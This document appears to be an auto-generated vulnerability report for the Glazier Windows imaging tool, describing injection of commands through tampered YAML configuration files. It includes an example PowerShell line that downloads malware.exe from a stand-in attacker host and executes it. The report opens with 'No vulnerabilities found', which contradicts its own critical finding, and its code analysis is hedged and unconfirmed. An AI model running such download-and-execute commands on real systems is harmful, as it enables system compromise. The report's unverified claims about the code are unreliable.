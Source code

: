 No vulnerabilities found.

After reviewing the provided lists, it appears that all four listed vulnerabilities describe the same core security issue: **Configuration Injection leading to Arbitrary Command Execution**. They are essentially different names for the same root vulnerability and describe similar attack vectors and impacts.

Therefore, after de-duplication and combining the information, we have the following single vulnerability description:

### Configuration Injection leading to Arbitrary Command Execution

- Description:
    1. An attacker compromises the web server hosting Glazier configuration files (YAML).
    2. The attacker modifies a legitimate YAML configuration file (e.g., `build.yaml`) on the compromised server to inject malicious actions or commands.
    3. A target Windows system, during the deployment process, boots into the Windows Preinstallation Environment (WinPE) and initiates Glazier.
    4. Glazier fetches the compromised YAML configuration file from the attacker-controlled web server over HTTPS.
    5. Glazier parses the malicious YAML file, which now contains attacker-injected actions, such as commands to be executed by the `Execute` action, scripts for `PSScript`, or package installations via `GooGetInstall`.
    6. Without proper integrity checks on the configuration file or input validation/sanitization of the commands within, Glazier proceeds to execute the actions defined in the compromised configuration.
    7. The injected malicious actions are executed on the target Windows system with the elevated privileges of the Glazier process, potentially leading to full system compromise.

- Impact:
    - **Critical**. Successful exploitation allows a remote attacker to achieve arbitrary code execution on target Windows systems during the deployment process. This can lead to:
        - Complete system compromise and persistent access.
        - Installation of malware, ransomware, backdoors, or other malicious software.
        - Data theft, modification, or destruction.
        - Denial of service by rendering systems unusable.
        - Privilege escalation and unauthorized access to sensitive resources.
        - Supply chain attacks if the compromised configuration server is used for multiple deployments.

- Vulnerability Rank: **Critical**

- Currently Implemented Mitigations:
    - **HTTPS for Communication**: Glazier uses HTTPS to retrieve configuration files and payloads. This encrypts the communication channel, protecting against man-in-the-middle attacks during transit and providing server authentication if certificates are properly validated. Location: Described in `/code/README.md` ("Glazier distributes all data over HTTPS").
    - **SHA256 Hash Verification for `Get` Action**: The `Get` action supports optional SHA256 hash verification to ensure the integrity of downloaded files. Location: Described in `/code/docs/actions.md`.

- Missing Mitigations:
    - **Integrity and Authenticity Checks for Configuration Files**: Glazier lacks a comprehensive mechanism to verify the integrity and authenticity of the configuration files themselves. Missing mitigations include:
        - **Digital Signatures**: Implementing digital signatures for configuration files, allowing Glazier to verify that the files originate from a trusted source and have not been tampered with.
        - **Checksum Verification**: Employing checksums (e.g., SHA256) for configuration files, verified against a known trusted value stored securely within Glazier or obtained from a separate trusted source.
    - **Input Validation and Sanitization**:  Lack of input validation and sanitization for commands and scripts provided within the YAML configuration, especially for actions like `Execute`, `PSScript`, and `GooGetInstall`. Implementations should include:
        - **Strict Whitelisting**: Define a whitelist of allowed commands or actions.
        - **Input Sanitization**: Sanitize or escape user-provided input within configurations to prevent command injection.
    - **Principle of Least Privilege on Web Server**: Harden the web server hosting configuration files and apply the principle of least privilege to minimize the impact of a web server compromise. Regularly audit and patch the web server software and infrastructure.
    - **Content Security Policy (CSP) for Configurations**: Consider implementing a form of Content Security Policy for YAML configurations, defining a strict schema and allowed actions to limit the attack surface and prevent execution of arbitrary or unexpected actions.

- Preconditions:
    1. **Attacker Access to Web Server**: The attacker must successfully compromise the web server that hosts the Glazier configuration files. This can be achieved through various methods, such as exploiting vulnerabilities in the web server software, gaining unauthorized access through stolen credentials, social engineering, or insider threats.
    2. **Glazier Instance Configured to use Compromised Server**: Target Glazier instances must be configured to fetch configuration files from the compromised web server. This configuration is typically set during Glazier setup and deployment.

- Source Code Analysis:
    1. **Configuration File Fetching**: Glazier uses libraries like `requests` to fetch configuration files over HTTPS from a specified web server.
        - File: `/code/glazier/lib/config/builder.py` (and potentially other modules involved in network requests).
        - Code inspection is needed to confirm the exact method of fetching.
    2. **YAML Parsing**: Glazier utilizes `PyYAML` to parse the fetched YAML configuration files.
        - File: `/code/glazier/lib/config/builder.py` (and potentially other modules handling YAML parsing).
        - Code review should verify how YAML files are loaded and processed into actions, and if there are any inherent vulnerabilities in the parsing process itself (though the primary risk is the content of the YAML).
    3. **Action Execution**: The `ConfigRunner` executes actions defined in the parsed configuration files. Actions are implemented in files within `/code/glazier/lib/actions/`.
        - File: `/code/glazier/lib/config/runner.py`
        - Files: `/code/glazier/lib/actions/*.py` (e.g., `/code/glazier/lib/actions/execute.py`, `/code/glazier/lib/actions/ps_command.py`, `/code/glazier/lib/actions/googet_install.py`).
        - Code inspection, especially of action modules like `Execute`, `PSCommand`, and `GooGetInstall`, is critical to identify if commands or scripts provided in the YAML configuration are executed directly without proper sanitization. For example, if the `Execute` action uses `subprocess.run(command, shell=True)` with user-supplied command strings directly from the YAML, it is highly vulnerable to command injection.

    **Vulnerability Trigger**:
    - The vulnerability is triggered when Glazier fetches and processes a malicious configuration file from a compromised web server.
    - The lack of integrity checks allows Glazier to blindly trust and process the attacker's injected malicious actions without any validation.
    - Example malicious YAML injection in `build.yaml` on the compromised server:
    ```yaml
    controls:
      - Execute:
        - ['powershell.exe -Command "Invoke-WebRequest -Uri http://malicious.server/malware.exe -OutFile C:\\Windows\\Temp\\malware.exe; C:\\Windows\\Temp\\malware.exe"']
    ```
    - When Glazier processes this modified `build.yaml`, the `Execute` action will download `malware.exe` from the attacker's server and execute it on the target Windows system.

- Security Test Case:
    1. **Setup a Glazier Test Environment**:
        - Deploy a Glazier instance in a test environment, including a web server to host configuration files and a target Windows system for imaging.
        - Configure Glazier to fetch configuration files from a web server you control (for testing purposes, this can be a local web server).
    2. **Prepare a Malicious Configuration File**:
        - Create a modified `build.yaml` file that includes a malicious action. For example, use the `Execute` action to create a file on the target system as evidence of code execution.
        ```yaml
        controls:
          - Execute:
            - ['powershell.exe -Command "New-Item -ItemType File -Path C:\\pwned.txt -Value \'You have been PWNED!\'"]
        ```
    3. **Replace Legitimate Configuration**:
        - Replace the legitimate `build.yaml` file on the test web server with the malicious `build.yaml`.
    4. **Initiate Glazier Deployment**:
        - Initiate a Glazier deployment on a test Windows system, pointing it to the test web server with the malicious configuration.
    5. **Observe the Target System**:
        - After Glazier deployment completes (or during if possible to monitor), check the test Windows system.
        - Verify that the file `C:\pwned.txt` has been created with the content "You have been PWNED!".
    6. **Expected Result**:
        - The file `C:\pwned.txt` should be present on the target system, demonstrating successful execution of the injected malicious action from the modified configuration file. This confirms the Configuration Injection leading to Arbitrary Command Execution vulnerability. In a real-world scenario, a more impactful malicious command, such as downloading and executing a reverse shell or malware, would be used to demonstrate full system compromise.